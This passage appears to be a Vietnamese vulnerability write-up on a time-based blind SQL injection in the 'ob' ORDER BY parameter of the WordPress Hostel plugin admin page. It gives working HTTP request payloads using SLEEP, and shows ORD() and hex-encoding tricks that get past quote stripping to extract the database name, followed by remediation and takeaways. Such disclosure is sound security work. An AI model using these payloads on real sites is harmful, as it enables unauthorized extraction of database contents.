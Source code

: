 * Phần sau `ORDER BY` sử dụng `sanitize_text_field()`.
* Hàm này chỉ **loại bỏ/escape HTML**, không hề filter hoặc validate để đảm bảo an toàn trong **SQL context**.
* Tham số `ob` (do người dùng truyền vào) vì vậy có thể bị lợi dụng để **chèn trực tiếp vào câu SQL**.

**Request with BurpSuite**:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&ob=tB.status,(SELECT+SLEEP(10))&dir=ASC HTTP/1.1
```

Ta tách mệnh đề `ORDER BY` bằng `,` vì nó chấp nhập **multi column**

{{< figure src="time_response.png" alt="time response" caption="Time response" >}}

Kết quả: thời gian phản hồi bị delay => SQL Injection thành công.

### Dump Data from Database

**Bypass `'` using ORD()**:

Để dump dữ liệu của database ta cần thử để lấy ký tự đầu tiên của **database name**.

Do `sanitize_text_field()` loại bỏ `'`, ta không dùng được payload so sánh trực tiếp. Thay vào đó dùng `ORD()` để so sánh ký tự theo ASCII:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(ORD(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Thành công bypass => có thể trích xuất tên database.

{{< figure src="ord_bypass.png" alt="ORD bypass" caption="ORD bypass" >}}

**Bypass `'` using Hex encoding (extend)**

Ngoài `ORD()` ta có thể sử dụng **Hex encoding** để bypass

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Thành công bypass => có thể trích xuất tên database.

{{< figure src="ord_bypass.png" alt="Hex encoding bypass" caption="Hex encoding bypass" >}}

## Remediation

Cập nhật lên **Hostel Plugin v1.1.5.7** hoặc mới hơn

## Takeaways

* `sanitize_text_field()` ≠ chống **SQL Injection**
* Cần phân biệt rõ: lọc input cho HTML vs cho SQL
